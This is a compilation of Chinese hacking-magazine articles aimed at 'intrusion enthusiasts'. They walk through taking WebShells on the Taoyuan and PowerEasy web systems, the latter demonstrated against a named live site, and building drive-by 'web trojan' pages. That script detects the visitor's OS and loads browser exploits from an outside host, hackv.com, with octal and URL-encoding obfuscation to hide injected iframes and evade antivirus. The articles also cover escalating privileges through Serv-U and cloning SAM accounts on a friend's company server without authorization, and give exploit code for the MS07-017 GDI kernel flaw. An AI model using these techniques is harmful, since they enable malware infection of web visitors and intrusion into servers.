上面介绍的这些漏洞，除了官方 4.3 版中说的两个漏洞外，其余的漏洞在 4.3 版中都存在。看到这里，可能有的读者会说了，有没有可以拿下 WebShell 的漏洞呢？经过我随后的测试，发现了在 4.3 版中拿 WebShell 的漏洞（我只测试了 4.3 版，其余版本就留给大家去测试吧！）还是直接说利用方法吧，这样大家看一下就会明白了。

首先上传一个文本文档，上传成功后就会有一个可以编辑的图标（和上面的图片浏览差不多），用同样的方法取它的真实地址，然后用 WSockExpert 抓包，抓下的数据包如下所示。

```http
POST /newdisk/editfile.aspx?file=/1.txt&path=/ HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, ...
Referer: http://10.1.41.244/newdisk/editfile.aspx?file=/1.txt&path=/
Content-Type: application/x-www-form-urlencoded
Host: 10.1.41.244
...
__EVENTTARGET=SaveBtn&__EVENTARGUMENT=&__VIEWSTATE=...
```

大家可以看出，我们可以修改的主要就是“/newdisk/editfile.aspx?file=/1.txt&path=/”。我一开始也是直接修改这个地方，提交后发现保存的仍是 1.txt 文件。程序不可能会自动识别吧？肯定在提交的文件中还有关于“1.txt”的信息。再看看“__VIEWSTATE=”后面的数据，好像是加密了（后来发现是用的 Base64 编码的），用转换工具将得到的编码数据解码一下，可以发现我们提交的数据中的一些特殊字符已经被转化了。由此，我想到了获得 WebShell 更为方便、简单的方法。还是回到刚编辑文本文档的页面，直接将当前的网页“另存为”，保存到本地。之后将其打开修改，为了节约版面，这里只贴出最主要的代码。

```html
<META content="MSHTML 6.00.2900.3059" name=GENERATOR></HEAD>
```

```html
<BODY>
<FORM id=edit name=edit action=editfile.aspx?file=/1.txt&path=/ method=post>
<INPUT type=hidden name=__EVENTTARGET>
<INPUT type=hidden name=__EVENTARGUMENT>
<INPUT type=hidden value="..." name=__VIEWSTATE>
```

这里修改的地方主要有两处，一是把 `action` 补全，我也尝试过修改 path，但没有成功，有兴趣的话可以自己研究一下；二是将 `value=` 后的值用转换工具解码，如图7所示，解码后的结果为“...1.txt...”。将其中所有的“1.txt”改为“1.aspx”，之后再用刚才的工具编码回来保存后，自己修改提交的内容，想怎么写就怎么写吧，直接提交就可以了。我的测试结果如图8所示，直接点击“保存”，如果出现了如图9所示的结果，就说明成功了。

不过此时大家千万不要去看是不是真的修改成功了，因为桃源的保护机制会把上传的文件给删除掉。我们直接提交上传文件的地址就可以拿下一个 WebShell。这里提交“http://10.1.41.244/newdisk/myfile/test/1.aspx”，就可以成功得到 WebShell 了，如图10所示。

至此，我发现的桃源漏洞就介绍完了。总的来说，桃源还应该进一步加强安全机制，主要是 Base64 编码处理不是很好，容易被解码。那么，这些漏洞我们该如何防范呢？大家最好是设置一下 MYFILE 目录，或者设置为其他的上传文件目录，并保证没有脚本执行的权限。

我用上面的漏洞测试官方网站，发现无法利用，一是官方用了错误转向，有什么错误都跳转了，导致没有办法利用；二是用户的目录是不可以在网上访问的，这样就算上传了 WebShell，也没有办法访问。其实大家也可以如此设置，一般就没有什么办法入侵了。

///D

适合读者：入侵爱好者  
前置知识：无

## 劲易，我是被微软陷害的

文/图 玲珑凤凰

最近劲易真是漏洞百出，前几期的黑防也都有介绍，可惜离拿 WebShell 都差了那么一点点。然而前不久劲易又被发现了一个重大漏洞，甚至无须登录后台就可以直接拿到 WebShell。难道劲易的代码里又被发现了什么重大漏洞？其实不然，话还要从 Windows 2003 Enterprise Edition IIS6 ASP 目录执行缺陷说起。

Windows 2003 IIS6 处理文件扩展名的时候出错，导致放在该目录中的 JPG 图片会自动执行其中的 ASP 代码。如果 JPG 后缀的文件中含有 ASP 代码时，就会被执行。当然，不只是 JPG 后缀才可以。这个漏洞的利用需要入侵服务器的操作系统是 Windows 2003 服务器版，而且上传的路径中要包含 asp。

我们知道了原理还远远不够，只有通过亲自实践才能真正体会其中的精髓。我们以 http://lb.rmtwb.net 为例，首先在 http://lb.rmtwb.net/Reg/User_Reg.asp 注册……

这里尤其要注意的是，会员名的结尾一定要是 `.asp`，如图1所示。注册成功后，在 http://lb.rmtwb.net/user/user_login.asp 处登录。

- 有的朋友会问，网站没有直接链接注册和登录的网址，你是如何找到这些地址的呢？其实很简单，下载一份劲易源文件，里面的文件就都有了，而且一般人不会轻易去修改默认的文件名的。

登录成功后，在 `http://lb.rmtwb.net/user/Upload.asp?dialogtype=UserBlogPic&size=5` 处上传图片。这里需要注意的是，动易不仅会对上传文件的后缀名进行判断，而且还会对文件头进行判断。如果只是将 ASP 木马文件后缀改为 JPG，还是无法上传。可将真实图片用记事本打开，在中间插入 ASP 代码后保存再上传。


页面显示图片上传成功。查看源文件可以看到刚上传图片地址（如图2），其链接类似：`http://lb.rmtwb.net/Space/test.asp/200702/20070226035050397.jpg`。


> 路径中包含了 `test.asp`，于是 JPG 被当作 ASP 执行，而 `test.asp` 正是先前注册的会员名。

接下来的事情不再赘述。该漏洞需要 Windows 2003 IIS6 运行环境，并且动易系统可注册可上传。动易 2006 的多个版本（含商业 SQL 版、Access 版，SP1~SP5）均受影响，官方当时尚无补丁。建议删除相关 Space 临时目录、删除 `User/User_Space.asp` 或限制注册。

- 适合读者：入侵爱好者
- 前置知识：JavaScript

## 挂马之术


文／图 KISSY［黑夜］

时间飞逝，新年已离我们远去。微软的 07004 漏洞出现已有一段时间，关于挂马、抓鸡的话题很多。作者认为挂马也是一门“艺术”，并从技术角度继续讨论相关手法。

不能过多责备，有攻才有防。本文内容仅供技术研究。常见挂马漏洞类型有两种：跨站脚本型与溢出型；如 06014 属于典型跨站脚本型，近期不少 0day 多为溢出型（如 07004、WebView FolderIcon 等）。

直到现在，许多挂马者更倾向于 06014，因为其“不弹不闪不卡”，隐蔽性较强。不像 07004 溢出时导致 IE 卡死、报错或者干脆崩溃，这是我们所不愿意看到的。因为大多数人在遇到这种情况下会毫不犹豫地关掉 IE 或者结束其进程，被网站管理员发现的几率无疑会大很多。而利用下面的方法来操作，就可以让溢出型漏洞达到近似 06014 挂马的效果。

- 1. 通过调用使 IE 不死或者不卡。
- 2. 更改溢出时间，不让别人一进网站就卡死，可以等个几分钟再开始溢出。
- 3. 通过 Cookies 判断来访者，使其不会每次打开网页都卡在那里。
- 4. 很多系统盘里可能集成了 06014，也可能没有，如果没有的话，我们何必拿 07004 来对付他呢？杀鸡焉用牛刀！
- 5. 07004 在很多 Windows XP 机器上执行会出错，Windows 2000 和 2003 的机器上好像这个问题不明显，有没办法解决呢？
- 6. 瑞星现在的 IE 防护是越来越猛了，网马遇到它基本上就没用了，得想个办法绕过去。

现在目标已经明确，我们开始实现。更改溢出时间，茄子宝宝大哥的文章已经讲得很明白了，这里就不细说了，Cookies 虽也提到了，但是没有详细说明。既然我们这里是研究，那一个问题就得研究透彻，否则怎么进步呢？

网上也有人做过一个让 IE 溢出不卡的教程，但是含含糊糊，美其名曰 07020，不过是用 JS 弹窗来调用 07004 而已。这种做法管理员很容易发现，没什么太大的价值。真正有价值的还是要看咱挂马之神发飙啦（别丢西红柿哦\~\~\~）！

首先用绝爱的 WebViewFold 网马生成器生成一个网马，如图1所示，并把网马名字改成 web.htm 备用。在 Windows XP 下，07004 经常无法运行，经过反复测试，我发现 WebViewFold 是最好的，当然大家用 VML 也可以。然后再找一个 07004 的生成器做一个 07004 网马，命名为 07004.htm，备用。


不用奇怪，这个 07004 是给 Windows 2000 和 2003 的机器准备的。既然挂马，当然要通杀啦，不然谈什么艺术？

之后我们来判断操作系统，如果是 Windows XP 就采用 WebViewFold；如果是 Windows 2000 或者 2003 就用 07004，具体代码如图2和图3所示，把它保存为 index.htm，这就是我们的挂马首页，其他的网页由这个调用。这些代码大意为：首先判断有无 06014 漏洞，有的话就运行 06014 网马（这个后面还要说）；没有的话就 3 秒（这里的 3000 代表的是 3 秒）后判断操作系统，如果是 Windows XP 就执行 1.htm，否则就执行 2.htm。也许大家注意到了，先前生成的两个网马名字分别为 web.htm 和 07004.htm，而这里为什么是 1.htm 和 2.htm 呢？呵呵，先卖个关子。这也就引出了我们的下一个解决目标——Cookies 识别。

```html
<script language="javascript">
window.status="";
function detectOS(){
  if(navigator.userAgent.indexOf("Windows NT 5.1") != -1){
    OS = "Windows xp";
  }else{
    if(navigator.userAgent.indexOf("Windows NT 5.2") != -1){
      OS = "Windows 2003";
    }else{
      OS = "Windows 2000";
    }
  }
  return OS;
}
function MakeItSo(){
  if(detectOS() == "Windows XP"){
    //操作系统为xp,执行xp的WebViewFold网马
    window.location.href="1.htm";
  }
}
```

图2

```html
else {if(detectOS() == "Windows 2003")
{
  //操作系统为2003运行07004
  window.location.href="2.htm";
}
else
{
  //操作系统为2000,运行07004
  window.location.href="2.htm";
}
}
</script>
<script language=VBScript>
on error resume next
Set downf = document.createElement("object")
downf.setAttribute "classid", "clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"
str="microsoft.XMLHTTP"
Set o = downf.CreateObject(str,"")
if Not Err.Number = 0 then
  err.clear
  //打了06014补丁，3秒钟后根据不同操作系统执行网马
  document.write("<script language='javascript'>window.setTimeout('MakeItSo()',3000);</scr"&"ipt>")
else
  //没打06014补丁，运行06014网马014.htm
  document.write("<iframe width='0' height='0' src='014.htm'></iframe>")
end if
</script>
```

图3

我们可以通过 JS 文件来实现这个目标，还可以在 JS 文件中设置溢出的时间，具体的代码如图4所示。

```javascript
function d(){var o=document.createElement('iframe');o.width=0;o.height=0;o.frameBorder=0;o.name='hf';o.id='hf';document.body.appendChild(o);oi=frames['hf'];setTimeout(function(){oi.location='http://www.hackv.com/text/web.htm';},2000);}
var Then=new Date();Then.setTime(Then.getTime()+24*3600*1000);if(document.cookie.indexOf('Cookie2=')==-1){document.cookie='Cookie2=hack;expires='+Then.toGMTString();d();}
```

图4

大家可以看到，代码里的 web.htm 就是适用于 Windows XP 的 WebViewFold 网马，后面的 2000 表示 2 秒后开始溢出。这里还自定义了 Cookies 的有效时间为 24 小时，可以根据需要自行修改时间。所以这段代码的大意就是：如果来访者的 Cookies 超过了有效时间，则在 2 秒后执行 WebViewFold 网马。至于为什么执行 WebViewFold，我前面已经讲过了。把这个文件保存为 1.js，接着把 1.js 复制一遍，把里面的 web.htm 改为 07004.htm，保存为 2.js。这个 JS 文件就是 Windows 2000 或者 2003 用来识别 Cookies 用的。至此，相信上面提到的 1.htm 和 2.htm 的具体代码大家就很清楚了。1.htm 的代码如图5所示，2.htm 的代码与其大致相似，把里面的 1.js 改为 2.js 即可。这两个文件用来调用 JS，以便判断 Cookies。

```html
<html><body><script src="http://www.hackv.com/text/1.js"></script></body></html>
```

图5

看到这里，大家是不是感觉少了点什么？呵呵，对了，06014 我们还没用到呢。06014 网马的免杀看起来很简单，但是要过瑞星和卡卡等软件的监控就比较麻烦了。网上流传有不少号称过瑞星监控的网马，我试过不少，似乎效果都不好，当前最好的方法还是用 vbs 脚本来调用，这里就不详细讲了，大家自己看随文资料吧。

接下来我要补充的就是在网站上挂马的问题了。众所周知，目前有不少挂马方法，比如直接 iframe、js 等。2007 年第 3 期的《黑防》上也讲了几个很不错的在取得服务器权限下的挂马方法，大家可以参考。这里我再补充一下在 WebShell 下的隐藏挂马方法。

通过 CSS 文件的调用我们可以有效地隐藏挂马。首先新建一个 CSS 文件，命名为 style.css，写入如下代码：`document.write('<iframe src=http://www.hackv.com/text/index.htm width=0 height=0 frameborder=0></iframe>')`，上传到自己的 FTP 空间，得到地址为 `http://www.hackv.com/text/style.css`。

这样我们在 WebShell 的首页里插入`<SCRIPT src=//www.hackv.com/text/style.css></SCRIPT>`即可实现挂马。但是这样太显眼了，我们做一下加密处理，如图6所示，把 CSS 文件中所有代码复制到“要转的”框中，然后点“给我转”，将生成的八进制字符串复制并覆盖原 CSS 中的代码，再在前面添加 eval 以及括号和引号，那么空间里的 style.css 代码就如图7所示了。我们再把 `www.hackv.com/text/style.css` 里除了“/”外所有的字符都换成 URL 格式，替换得到`<SCRIPT src=//%77%77%77%2E%68%61%63%6B%76%2E%63%6F%6D/%74%65%78%74/%73%74%79%6C%65%2E%63%73%73></SCRIPT>`，然后在别人的首页字符密集处插入这段代码就可以实现隐藏挂马的目的了。就算被发现了，别人也很难反向查到你的挂马页，最大限度地延长了网马的存活期。

到这里该说的就都说完了，经过以上方法制作的网马，就基本具有了智能识别机器是否存在 06014 漏洞，从而通过操作系统的不同而在 Cookies 识别下定时溢出，达到不卡的目的。当然，这里的 07004 网马和 WebViewFold 网马大家也可以换成其他的，比如 QQ 网马，然后替换掉相应的文件即可。


```javascript
eval("\144\157\143\165\155\145\156\164\56\167\162\151\164\145\50\42\74\151\146\162\141\155\145\40\163\162\143\75\150\164\164\160\72\57\57...\42\51")
```

图7

最后，我希望大家能够以技术的眼光来看待这篇文章，本文的诞生衷心感谢茄子宝大哥和平凡才是美等几位前辈做出的贡献！

- 适合读者：入侵爱好者
- 前置知识：无

## 利用 IIS 匿名用户提权

### 从 Serv-U FTP 服务 System 权限的利用


文／图 Cschi

近日，我的一位朋友因工作变动换了手机号，在告诉我的同时提到他们公司的网站，让我看看如何。于是打开了他们公司的网站，总体感觉还不错，反正没事再看看网站的安全性吧：随手在一个链接后输入“and 1=1”和“and 1=2”，Good! 存在注入！想想我朋友至今单身，如果能得到网站管理员密码，嘿嘿，我朋友可就要在网管面前大显身手了（听说他们网管可是位刚毕业的漂亮 MM，单身哦！）。

成功登录后台，发现“添加新闻”板块使用了 eWebEditor 在线编辑器，如图1所示。试着用默认用户名及密码（admin）登录 eWebEditor 后台管理“webedit/admin_login.asp”，成功！看来网站管理员并没有更改 eWebEditor 的默认设置（数据库为 db/eWebEditor.mdb）。唉，如此的安全意识，不入地狱，谁入地狱！

### 第一回：挂马，祸起萧墙

拿出家当 Domain（明小子）3.5，这东西就是好，查域名、批量注入、暴库、分析表、跑后台、解密码、论坛漏洞利用工具等，常用功能样样俱全！很快我就跑出了后台用户名、密码以及后台地址。

```html
（略）
<iframe ID="eWebEditor1" src="webedit/eWebEditor.asp?id=Content&style=standard_light1" frameborder="0" scrolling="no" width="570" HEIGHT="500"></iframe>
（略）
```

进入 eWebEditor 后台，在“自定义样式”（系统样式不允许用户设置，没有自定义样式时可先复制出一个）的上传文件类型中添加“|asa”（或 cdx、cer 类型），如图2所示。这是因为 eWebEditor 在 upload.asp 文件中采用了不允许方式限制上传 ASP 类型文件。修改成功后，再利用该自定义样式的“预览”功能上传海洋一句话木马，如图3所示。至此，挂马成功！


```asp
（略）
' 任何情况下都不允许上传asp脚本文件
sAllowExt = Replace(UCase(sAllowExt), "|ASP", "")
（略）
```

从上面的过程可以看出，这是个很脆弱的网站，从注入到挂马的整个过程，网站管理员没有做丝毫防范，数据库中的表名和列名均为常用字符，密码为明文，后台地址一扫即中，eWebEditor 为默认设置（数据库文件、管理员密码、后台管理地址），让入侵得以长驱直入！稍后赶紧给朋友发了一份补漏洞方案，让他在 MM 面前露两手。

既然该网站已经拿下，那么就看看服务器吧。继续用 Domain3.5 扫域名，哇，竟然捆绑了几十个域名，看来是一台专门用做虚拟空间的服务器，同时开放着 3389 端口，如果提权成功，这真是一台肥鸡！

### 第二回：提权——山穷水尽

首先用海洋2006客户端连接，得到服务器为 Windows 2003，关闭了 Shell.Application，但开放了 FSO，IIS 限制匿名用户（Guests 组）在各自目录，不能跨目录浏览，但“C:\”可读取、写入、修改和运行（上传 cmd.exe，可用海洋执行“c:\cmd.exe”的“dir c:”命令，Windows 2003 默认限制上传大于 200K 文件，可用 ASPack2.12 压缩 cmd.exe，压缩后仅为 101K），但无删除权限，可以将上传文件的属性改为隐藏，免得被管理员发现。E 盘为 FAT32，应当无权限限制；浏览发现“E:\Program Files”目录中有“Rising\rav”（无瑞星防火墙）和 Serv-U，并且 Serv-U 目录对 Guests 组用户可读取，马上下载了 ServUAdmin.exe，用 WinHex 打开发现本地用户名及密码均未更改，于是决定用 Serv-U 本地提权。

上传 Goldsun 的 ASP 版提权工具 serv-u.asp（如图4所示，该工具使用起来相当方便，可以指定用户名、密码、端口以及要执行的命令）。


由于无法用海洋执行“netstat -ano”命令（即使向 C:\ 上传 netstat.exe 文件也不行，该命令执行好像还需要读取系统目录中的几个 DLL 文件），所以无法肯定管理员是否更改了 Serv-U 的本地端口 43958。于是先用 serv-u.asp 执行“dir c:\ >c:\1.txt”（命令中的文件名应使用 8.3 的短文件名格式），提示成功执行后，发现 C:\1.txt 已经生成，于是肯定本地端口未做更改。再直接用 serv-u.asp 添加用户并加入管理员组，命令提示成功执行，如图5所示。


无法执行“net user”命令，只好直接用该用户登录 3389，但登录失败！难道 net user 命令没有执行？C 盘为 NTFS 格式，难道权限不够？或者是管理员更改了 Serv-U FTP 服务的登录权限（默认为 System）？

首先判断 Serv-U FTP 服务的运行权限。上传 regedit.exe 到“C:\”，利用 serv-u.asp 执行“c:\cmd.exe /c c:\regedit.exe e c:\sam.reg HKEY_LOCAL_MACHINE\SAM\SAM”（`-e` 是导出指定注册表项到指定文件）后，“c:\sam.reg”文件生成！下载后发现 sam.reg 中的内容一应俱全，如用户名、用户组等。由此肯定 Serv-U FTP 服务是以 System 权限运行的，因为 SAM 项默认对 System 是“完全控制”的，而且我想是不会有管理员会取消该权限的。那么，又为什么没有执行 net user 命令呢？

记得网上有禁止 net user 命令的方法是删除 HKEY_LOCAL_MACHINE\SAM\SAM 项的 C 值，但查看 sam.reg 文件，C 值确实存在呀！郁闷。难道是“C:\Windows\system32”目录中的 net.exe 和 user.exe 等文件已被删除？用 serv-u.asp 执行“c:\cmd.exe /c copy c:\windows\system32\user.exe c:\user.exe”（因为 System 起码对 C:\Windows\system32 目录具有“读取”权限，只要 user.exe 文件存在，copy 命令应该会成功执行）后，提示已成功复制到 C:\user.exe 文件。

天呐，System 权限竟然无法执行 net user 命令！看来想直接利用 net user 添加用户是行不通的，不得已暂时隐藏所有上传文件，闪人吧。

### 第三回：峰回路转

如此肥鸡，弃之总觉得可惜，虚拟空间服务 +3389，而且 Serv-U 的本地用户名、密码和端口都未更改，难得呀。更何况 Serv-U 服务是以 System 权限运行，如果就此打住，简直是煮熟的鸭子却给飞了！几天的思考后，终于想到了一个能绕过 net user 命令提权的方法。既然 System 完全控制注册表 SAM 项，何不利用克隆技术，直接将 IIS 匿名用户提升为管理员呢？首先利用 SAM 写入用户信息。在本机添加 IIS 匿名用户并提升为管理员，再将该用户的注册表项导…出为 newuser.reg，内容如下。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\@oldsun$]
@=hex(4ff):
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000004ff]
"F"=hex:02,00,01,00,...
"V"=...(略)
```

图7 画线处为 IIS 匿名用户名及密码

将 newuser.reg 上传，然后用 serv-u.asp 执行“c:\cmd.exe /c c:\regedit.exe -s c:\newuser.reg”……在 sam.reg 中查得该用户的对应类型值为 3ec，再将 Administrator 用户的类型值 1f4 项及 F 值复制为 iusr.reg，并将 1f4 改为 3ec，上传，用 serv-u.asp 执行“c:\cmd.exe /c c:\regedit.exe -s c:\isur.reg”……在海洋中输入“c:\cscript.exe c:\1.vbs ENUM W3SVC/1/root”，执行后的回显如图8所示。

图8 注意画线处

图6 图中为已上传的文件

先用 mailuser 及密码登录 3389，提示无权登录，不允许登录……用户克隆为 Administrator，用 mailuser 登录，成功！登录服务器的远程桌面后……同样利用 adutil.vbs 的“enum /p”命令可以得到该服务器中所有站点的标识符、站点的匿名用户名及密码，如图9和图10所示，再将它们克隆为管理员，想克谁就克谁，完全可以绕过 net user 的限制实现提权！而且 Windows 2003 的 Internet 信息服务中没有“允许 IIS 控制密码”选项。也就是说，在 Windows 2003 中设置匿名访问必须设置密码，这样我们用 enum 命令查看站点的 Root 属性时，一定会得到匿名用户名及密码的！

图11

图9

c）将用户所在组提升为 Administrators 组，如 Guests。使用此方法也存在着弊端。查看隶属于 Guests 组用户的“隶属于”处显示空白；当添加“Guests”后显示为“Administrators”；查看 Guests 组成员会显示 Administrators 组和 Guests 组中的所有成员。

```reg
[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Builtin\Aliases\Names\Guests]
@=hex(222)
<== 将此处的 222 改为 Administrators 的 220
```

判断账户是否被克隆的最简单方法是，使用“net localgroup Administrators”命令查看本地管理员组成员，或者查看注册表 SAM 项。另外，网上流传的克隆隐藏用户（$）方法当服务器重启后，在“计算机管理”中还是会被显示出来的。

2）登录服务器远程桌面查看权限设置。发现的确与前面的推测一致。这里需要注意的是，当执行“dir c: /q”命令后，我们用海洋上传的文件将原形毕露，因为这些文件所有用户为“jiuye”，而系统原有文件为“Administrators”，所以提权成功后应及时删除上传的文件，否则管理员会根据该用户名判断出我们入侵的来路。另外，对于“C:\Windows\system32”目录，System 有“完全控制”权限，但对 net.exe、user.exe 和 netstat.exe 等文件具有除“完全控制”外的其他权限，推测可能因此限制了 System 执行 net user 命令。

图10

## 第四回 后记：抛砖引玉

最后整理一下这次提权的过程。首先利用 cscript.exe 获得 IIS 匿名用户名及密码，然后利用 Serv-U FTP 服务的 System 权限完全控制注册表，再将 IIS 匿名用户克隆为 Administrator，如图11所示。

- 1）关于账户克隆有如下几种方法。  
  a）直接复制 Administrator（1f4）的 F 值  
  b）仅写入一个 names 项，将默认的类型值改为管理员类型值，如 1f4，这才是名副其实的“借权”。使用此方法存在弊端：当系统重启后，在“计算机管理”的“用户”中显示空白，而且此用户的密码与管理员密码一致。  
  c）将用户所在组提升为 Administrators 组（详见右栏）

由这次提权过程不难看出，此服务器首先没有重视租用空间的网站安全性，使我们有机可乘，轻易获得 WebShell。虽然服务器做了全面的权限设置，但忽略了 Windows 服务是以 System 身份运行的，使得我们利用 System 读写注册表 SAM 项的能力将 IIS 匿名用户克隆为管理员，导致服务器安全防线全面崩溃。同时还可以看出，利用 Serv-U 提权应注意的几个方面：用户名、密码、端口和运行权限。从防守角度来说，还应注意避免未授权用户对 Serv-U 目录的访问。好了，不再多说了，就此搁笔，不足之处还望大家指正！

适合读者：漏洞爱好者、入侵爱好者

前置知识：汇编

## Microsoft GDI

## 本地权限提升漏洞分析与利用

文／图 张东辉  袁野

GDI（Graphics Device Interface）是 Windows 的图形设备接口，它的主要任务是负责系统与绘图程序之间的信息交换，处理所有 Windows 程序的图形输出。如果你曾经使用过 GDI 编写过应用程序，那你肯定对设备描述表（DC）的概念非常熟悉，它是 Windows 使用的一个数据结构，用于存储具体设备能力和如何在设备上重绘一些项目的有关属性信息。在图形绘制时，首先你必须获得一个设备描述表句柄，然后把这个句柄作为一个参数传递给 GDI 图形绘制函数，最后绘制完图形后，需要销毁这个句柄。本文关注的这个 MS07-017 漏洞，就是因为这个销毁函数——DeleteObject() 出了问题。除了 Windows Server 2003 和 Windows Vista 不受影响外，其他版本的 Windows 都存在这个漏洞。

其实这个漏洞由来已久了，没有公布前，一直是 Bug 身份。最早是 Argeniss 安全研究组织中的 Cesar Cerrudo 于 2004 年 10 月 22 日发现并报告给了微软，微软好像也并没有推出补丁。两年后，2006 年 11 月，这个 Bug 在“Month of Kernel Bugs”上公布出来，虽然还是个 Bug，但是 Joel Eriksson 已经把这个 Bug 分析得很透彻了，就差一个真正的 Exploit 问世了。终于在 2007 年 4 月 8 日，Ivanlef0u 写出了这个证明这个漏洞的 POC 代码。真是让人兴奋啊，同时感慨这个漏洞的潜伏能力！

##### 漏洞分析

这个漏洞仅是 MS07-017 中的七个漏洞之一，但却是最具代表性的一个！所以本文就以此漏洞来分析。这个漏洞目前公认的类型是：本地权限提升漏洞，和我第三期杂志分析的卡巴斯基漏洞是一个类型。建议大家阅读本文之前，把那篇文章中的“提权”概念和方法温习一下，搞清楚 Ring0 和 Ring3 模式的区别。

上面提到，这个漏洞的根源是 GDI 句柄的销毁函数 DeleteObject() 出了问题。我想这里我们抓住漏洞的根源来分析会快很多，也便于理解。但真正去挖掘漏洞，恐怕就需要真功夫了，分析只是为了积累更多的漏洞经验。

首先用 IDA 反汇编 C:\WINDOWS\win32k.sys 文件，因为销毁 GDI 句柄的函数 DeleteObject() 就在这个 win32k.sys 系统内核驱动程序中。

```asm
win32k.sys!DeleteBrush (called by DeleteObject)

.text:BF80C178    mov    esi, [edx]
.text:BF80C17A    cmp    [esi+4], ebx
... (反汇编代码片段) ...
loc:BF80C1E7
.text:BF80C1E7    mov    eax, [esi+24h]
... (更多汇编指令) ...
```

上面这段代码只是销毁句柄函数中最引人注意的两段程序，看来看去总感觉有问题。我们来具体分析一下。通过动态跟踪可以发现两个关键点：一是 ebx 为 0，二是程序执行到 BF80C178 后，esi 将指向 GDITableEntry 中的第一个双字 pKernelInfo，其中 GDITableEntry 是 GDI 的句柄条目，可以用下面这个结构体来描述。

```c
typedef struct {
    DWORD pKernelInfo;
    // Pointer to kernelspace GDI object data
    ...
    WORD wProcessID; // Process ID
    WORD wCount;     // Reference count?
    WORD wUpper;     // upper 16 bits of GDI object handle
    WORD wType;      // GDI object type ID
    DWORD pUserInfo; // Pointer to user-space GDI object data
} GDITableEntry;
```

接着上面的分析，只要在 BF80C17A 处能保证 [esi+4] > 0，那么程序在执行到 BF80C183 后，就可以跳转到 BF80C1E7，从而会把 [esi+24h] 的双字内存单元改写为 0x2。这一点感觉也没什么惊讶的，但是我们可以设想，如果 esi+24h 的值恰好是 win32k 系统调用中的某个函数的入口地址，如果被这个 GDI 句柄销毁函数不慎修改为 0x2，那将是一个什么后果呢？

再进一步，销毁函数最终也是调用 win32k 完成销毁句柄的任务，调用的是 win32k 中的第一个系统调用——NtGdiAbortDoc 函数。我们大概整理一下思路，要完成这个 Exploit 需要以下几步：

- 1. 把 ShellCode 写在虚拟内存的 0x2 地址处。  
- 2. 定义一个连续内存空间，`ULONG buff[500] = {0};`  
- 3. 把 Win32kSST 赋值为 win32k 的系统服务描述表（SSDT）的第一个双字的地址。  
- 4. 创建一个画图的 GDI 句柄 Br（画刷），程序中要记住这个句柄所在的进程 ID 及该句柄的高 16 位地址。  
- 5. 在内存映射中寻找先前创建的那个 GDI 句柄所对应的 GDITableEntry，寻找方法是对比进程 ID 和高 16 位地址。  
- 6. 把找到的 GDITableEntry 中的第一个双字 pKernelInfo 赋值为 buff 数组的首址。  
- 7. 把 `buff[0x24/4]` 赋值为 Win32kSST。  
- 8. 调用一次 GDI 句柄销毁函数 `DeleteObject(hBr)`。  
- 9. 调用 win32k 的第一个系统调用 `NtGdiAbortDoc`。  
- 10. 提权成功，ShellCode 被执行。

下面我们具体来实现一下这个 Exploit，主要是将上面的关键步骤实现一下，剩下的大家可以参阅随文附带的 Exploit 源程序，我已注释得很全面！

### ★ ShellCode 植入虚拟内存

```c
Status = NtAllocateVirtualMemory(
    (HANDLE)-1,      // null HANDLE
    &Addr,           // 0x2
    0,               // if BaseAddress is zero, system use first free virtual location
    &Size,           // 0x1000
    MEM_RESERVE | MEM_COMMIT | MEM_TOP_DOWN,
    PAGE_EXECUTE_READWRITE);
```

```c
&Size            // 0x1000
MEM_RESERVE | MEM_COMMIT | MEM_TOP_DOWN
PAGE_EXECUTE_READWRITE); // READWRITE
if (Status) printf("Error with NtAllocateVirtualMemory: 0x%x\n", Status);
else printf("Addr: 0x%x OKAY\n", Addr);
// Addr will be the address of shellcode in Virtual Memory
memcpy(Addr, Shellcode, sizeof(Shellcode));
```

这里主要是用到了 ntdll.lib 中的 NtAllocateVirtualMemory 函数，用来分配虚拟内存空间。函数的参数如下：

```c
NtAllocateVirtualMemory(
  IN HANDLE ProcessHandle,
  IN OUT PVOID *BaseAddress,
  IN ULONG ZeroBits,
  IN OUT PULONG RegionSize,
  IN ULONG AllocationType,
  IN ULONG Protect
);
```

### ★ 创建一个画刷 GDI 句柄 Br

```c
HBRUSH hBr;                  // 画刷句柄
hBr = CreateSolidBrush(0);   // 初始化一个画刷
upr = (WORD)(DWORD)hBr >> 16; // 取得刷句柄高16位（参考）
PID = GetCurrentProcessId();  // 获取当前进程ID
```

### ★ 在内存映射中寻找先前创建的 GDI 句柄所对应的 GDITableEntry

```c
Status = NtQuerySection(
    hMapFile,
    SectionBasicInformation,
    &SBI,
    sizeof(SECTION_BASIC_INFORMATION),
    0);
if (Status) {
    printf("Error with NtQuerySection(SectionBasicInformation): 0x%x\n", Status);
    return 0;
}
printf("Handle value: 0x%x\nMapped address: 0x%x\nSection size: 0x%x\n", hMapFile, lpMapAddress, SBI.Size.QuadPart);

gdiTable = (GDITableEntry*)lpMapAddress;
for (i=0; i<SBI.Size.QuadPart; i+=sizeof(GDITableEntry)) {
    if ((gdiTable->ProcessID == PID) && (gdiTable->nUpper == upr)) {
        Old = gdiTable->pKernelInfo;         // save old value
        gdiTable->pKernelInfo = (ULONG)buff; // crafted buff
        break;
    }
    gdiTable++;
}
```

这个过程其实很简单，就是在内存映像中寻找与当前进程 ID 相同，并且句柄的高 16 位地址为 Upr 的 GDITableEntry，同时把找到的这个 GDITableEntry 中的第一个双字 pKernelInfo 赋值为 buff 数组的首址。

- 把 `buff[0x24/4]` 赋值为 Win32kSST

```c
buff[0]=0x1; // 1=0
buff[0x24/4]=Win32kSST; // syscall to modify
buff[0x4C/4]=0x804D7000; // kernel base
```

- 调用一次 GDI 句柄销毁函数 DeleteObject(hBr)

```c
// 调用DeleteObject函数
if(!DeleteObject(hBr))
    printf("Error with DeleteObject : %d\n", GetLastError());
gdiTable->pKernelInfo=Old; // restore old value
```

这个函数一旦被调用，作用就相当于执行了一次 `[Win32kSST]=0x2`，即把 ShellCode 的地址 0x2 写入了 win32k 的系统服务描述表中的第一个调用项的入口地址，也就是把 NtGdiAbortDoc 的入口地址覆盖成了 ShellCode 地址。当调用这个 NtGdiAbortDoc 函数时，系统在 Ring0 模式下并没有执行本来的操作，而是执行了我们的 ShellCode 操作，这样就完成了“偷梁换柱”的提权过程。

